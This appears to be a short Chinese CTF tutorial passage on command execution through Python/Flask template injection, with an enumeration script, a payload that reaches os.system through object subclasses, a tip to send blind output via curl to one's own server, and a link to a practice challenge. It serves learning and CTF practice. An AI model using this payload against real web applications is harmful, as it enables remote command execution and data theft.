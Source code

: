 ##### 命令执行

首先通过脚本找到包含os模块的类。

```python
num = 0
for item in ''.__class__.__mro__[1].__subclasses__():
    try:
         if 'os' in item.__init__.__globals__:
             print (num,item)
         num+=1
    except:
        print ('-')
        num+=1
```

假设输出为x编号的类，则可以构造  

```python
''.__class__.__mro__[1].__subclasses__()[x].__init__.__globals__['os'].system('ls')
```

命令执行的结果如果不能直接看到，可以考虑通过curl工具发送到自己的VPS，或者使用CEYE平台。

执行脚本发现，包含os模块的类： 

```
<class 'site._Printer'>
<class 'site.Quitter'>
```

其他函数的利用同理。

#### e.练习题目

[攻防世界:Web_python_template_injection](https://adworld.xctf.org.cn/task/answer?type=web&number=3&grade=1&id=5408&page=2) ，Flask模板注入板子题，上述知识即可解决。
